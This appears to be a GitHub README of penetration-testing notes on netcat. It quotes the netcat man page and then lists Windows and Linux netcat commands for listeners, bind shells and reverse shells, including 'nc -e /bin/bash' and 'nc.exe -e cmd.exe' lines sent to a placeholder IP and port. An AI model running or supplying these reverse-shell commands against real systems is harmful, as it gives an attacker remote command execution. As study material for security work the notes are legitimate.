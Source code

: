 - **[Netcat](#netcat)**
- **[Ncat](#ncat)**
- **[Wireshark](#wireshark)**
- **[TCPdump](#tcpdump)**

## Netcat<a name="netcat"></a>

       netcat is a simple unix utility which reads and writes data across network
       connections, using TCP or UDP protocol. It  is  designed  to  be  a  reliable
       "back-end" tool that can be used directly or easily driven by other programs
       and scripts. At the same time, it is a feature-rich  network  debugging  and
       exploration tool, since it can create almost any kind of connection you would
       need and has several interesting built-in capabilities. Netcat, or  "nc"  as
       the  actual  program  is named, should have been supplied long ago as another
       one of those cryptic but standard Unix tools.

       In the simplest usage, "nc host port" creates a TCP connection to  the  given
       port on the given target host.  Your standard input is then sent to the host,
       and anything that comes back across the connection is sent to  your  standard
       output.   This  continues indefinitely, until the network side of the connec‐
       tion shuts down.  Note that this behavior is different from most other appli‐
       cations which shut everything down and exit after an end-of-file on the stan
       ‐dard input.

       Netcat can also function as a server, by listening for inbound connections on
       arbitrary ports and then doing the same reading and writing.  With minor lim‐
       itations, netcat doesn't really care if it runs in "client" or "server"  mode
       --  it  still shovels data back and forth until there isn't any more left. In
       either mode, shutdown can be forced after a configurable time  of  inactivity
       on the network side.

===

This part primarily deals with using netcat to create bind shells or reverse shells. I will let the examples speak for themselves. In this context shell stands for a command window that can be used to execute commands on. 

#### Windows Netcat Cmds:

````bash
>nc.exe -h #help for man page
>nc.exe -nvLp [port] #listens on port
>nc.exe -nv [ip] [port] #transmits data to ip and port
>nc.exe -nv [ip] [port] -e cmd.exe #sends reverse shell
````
#### Linux NetCat Cmds:
````bash
$ man nc #manual page for netcat
$ nc -nv [ip] [port] #transmits
$ nc -nvlp [port] #listens
$ nc -nv [ip] [port] -e /bin/bash #sends reverse shell
````

#### Reverse Shell: shell is *transmitted*.
